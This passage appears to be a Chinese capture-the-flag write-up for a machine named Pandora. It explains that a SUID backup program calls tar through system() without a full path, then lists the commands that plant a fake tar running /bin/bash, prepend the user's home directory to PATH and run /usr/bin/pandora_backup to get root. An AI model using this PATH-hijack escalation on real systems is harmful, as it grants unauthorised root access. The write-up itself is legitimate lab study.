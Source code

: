 ```C
  else
  {
    puts("Backup successful!");
    puts("Terminating program!");
    result = 0;
  }
  return result;
}
```

发现程序调用tar 但是使用system来调用，没用明确是哪个tar，我们可以伪造一个tar添加到环境变量中，让系统调用我们就可

切换到matt的用户目录，然后创建由`/bin/bash`一个假的tar可执行文件，并将matt的家路径注入PATH变量中,这样可以在`tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*`命令结束后仍然在/bin/bash命令中

这是本地用/bin/sh做的实验：

```shel
└─# ./tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console
# 
# 

```

因此我们在远程伪造

```
cd /home/matt/
echo "/bin/bash" > tar
chmod +x tar
export PATH=/home/matt:$PATH
/usr/bin/pandora_backup
```

然后得到root
